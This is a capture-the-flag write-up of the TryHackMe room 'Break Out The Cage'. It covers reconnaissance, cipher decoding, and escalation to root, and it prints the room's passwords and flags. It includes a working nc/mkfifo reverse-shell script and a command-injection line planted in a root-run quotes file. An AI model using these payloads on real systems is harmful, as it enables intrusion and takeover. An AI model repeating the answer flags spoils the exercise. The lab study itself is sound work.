 ```yaml
---
title: "Break Out The Cage - TryHackMe"
author: Ludovic COULON
date: 2020-06-18
hero: ./images/hero.jpeg
excerpt: "Writeup for the Break Out The Cage room on TryHackMe"
---
```


[TryHackMe | Break Out The Cage](https://tryhackme.com/room/breakoutthecage1)
Let's find out what his agent is up to....

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.145.194
```

```bash
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.2.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDn+KLEDP81/6ceCvdFeDrLFYWSWc6UnOmmpiNeXuyr+GRvE5Eff4DOeTbiEIcHQkkPcz2QXiOLd9SMjCEgAqmZiZE/mv1HJpQfmRLOufOlf9oZ1TIZf7ehKcVqX0W3nuQeC+M2wLBse2lGhovnTSaZKLKRjQCP2yD1EzND/xFA88oFpahvr6vJfyGOTADjc83AJq9n3Gnil4Nd88xNsIKTl01Mm9ikE/3n/XFbwzYa2bYJRVr+lWWRd+EU3sYTY80PQgBiw6ZPT0QCe0lQfmcgCqu4hC+t/kyfmMRlbtjN/yZJ0gCWeVVAV+A4NNgsOqFbXUT+c6ATzYNhBXRojJED
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA3G1rdbZBOf44Cvz2YGtC5WhIHfHQhtShY8miCVHayvHM/9reA8VvLx9jBOa+iClhm/HairgvNV6pYV6Jg6MII=
|   256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFiTPEbVpYmF2d/NDdhVYlXWA5PmTHhtrtlAaTiEuZOj

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
➜  TryHackMe dirb http://10.10.145.194/ -R

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jun 15 10:10:41 2020
URL_BASE: http://10.10.145.194/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Interactive Recursion

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.145.194/ ----
==> DIRECTORY: http://10.10.145.194/contracts/
==> DIRECTORY: http://10.10.145.194/html/
==> DIRECTORY: http://10.10.145.194/images/
==> DIRECTORY: http://10.10.145.194/auditions/
+ http://10.10.145.194/index.html (CODE:200|SIZE:2453)
==> DIRECTORY: http://10.10.145.194/scripts/
+ http://10.10.145.194/server-status (CODE:403|SIZE:278)
```

<div className="Image__Medium">
  <img src="https://imgur.com/OszNOAo.png" alt="blog_image" />
</div>

As you can see by the title of the file, this mp3 is corrupted let's see if there is something hidden using stenography.

<div className="Image__Medium">
  <img src="https://imgur.com/1VoGSx0.png" alt="blog_image" />
</div>

Yep ! There is something hidden in this file the "password" is : namelesstwo

<div className="Image__Medium">
  <img src="https://imgur.com/gN4KqtG.png" alt="blog_image" />
</div>
<div className="Image__Medium">
  <img src="https://imgur.com/eVBHL57.png" alt="blog_image" />
</div>

[Vigenère Cipher - Decoder, Encoder, Solver, Translator](https://www.dcode.fr/vigenere-cipher)

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

### #1 What is Weston's password?

```bash
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

### #2 What's the user flag?

I tried to use the find command to locate all the txt files but nothing came out..

```
weston@national-treasure:~$ find / -type f -name "user.*" 2>/dev/null
```

Let's try something else .. 😢

<div className="Image__Medium">
  <img src="https://imgur.com/B1Bb9kI.png" alt="blog_image" />
</div>

As you can see there this script that we can execute with root permission let's get a reverse shell 🤤

Wait ...

<div className="Image__Medium">
  <img src="https://imgur.com/fe66YHv.png" alt="blog_image" />
</div>

When I was editing the script I noticed something interesting there is a script that write random quotes, let's find the script 🤨

You can also find the random quotes in the motd

<div className="Image__Medium">
  <img src="https://imgur.com/iQWwMqZ.png" alt="blog_image" />
</div>

```
weston@national-treasure:~$ find / -type f -name "rando*" 2>/dev/null
```

Nothing there.. 😟

```
weston@national-treasure:~$ find / -type f -name "*quotes*" 2>/dev/null
```

AH ! I found it! 😅

<div className="Image__Medium">
  <img src="https://imgur.com/tUotgtl.png" alt="blog_image" />
</div>

```python
weston@national-treasure:~$ cat /opt/.dads_scripts/spread_the_quotes.py
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

Let's get a reverse shell

```bash
rm -f /tmp/rev
cat << EOF > /tmp/rev
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.2.228 4444 >/tmp/f
EOF
chmod +x /tmp/rev
printf 'bop; /tmp/rev\n' > /opt/.dads_scripts/.files/.quotes
```

Wait maybe 1 or two minutes to get a shell

<div className="Image__Medium">
  <img src="https://imgur.com/WBwzInV.png" alt="blog_image" />
</div>

```bash
ls
email_backup
Super_Duper_Checklist
cd Super*
/bin/bash: line 30: cd: Super_Duper_Checklist: Not a directory
cat Super*
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
```

### #3 What's the root flag?

Once you are in the cage account go to this repertory

```bash
/home/cage/email_backup
```

And cat \*

<div className="Image__Medium">
  <img src="https://imgur.com/oi1cWOc.png" alt="blog_image" />
</div>

After a while I figured out that the "password" highlighted is encoded using Vigenère encryption

But as you can see you need to provide some key to decode the password I tried "Face" because on the last paragraph the email repeat many times the word so i guess i had some chance 🥴

<div className="Image__Medium">
  <img src="https://imgur.com/junuXVj.png" alt="blog_image" />
</div>

[CyberChef](<https://gchq.github.io/CyberChef/#recipe=Vigen%C3%A8re_Decode('face')&input=aGFpaW5zcHN5YW5pbGVwaA>)

```bash
cageisnotalegend
```

You can also stabilized the shell using the cage's ssh key

<div className="Image__Medium">
  <img src="https://imgur.com/uWyHix4.png" alt="blog_image" />
</div>

Once you stabilized the shell you can just type "su" and type the password that we discover earlier

<div className="Image__Medium">
  <img src="https://imgur.com/ibMOroe.png" alt="blog_image" />
</div>

```bash
THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/8vldBpt.png" alt="TryhackMeProfile" />
  </a>
</center>
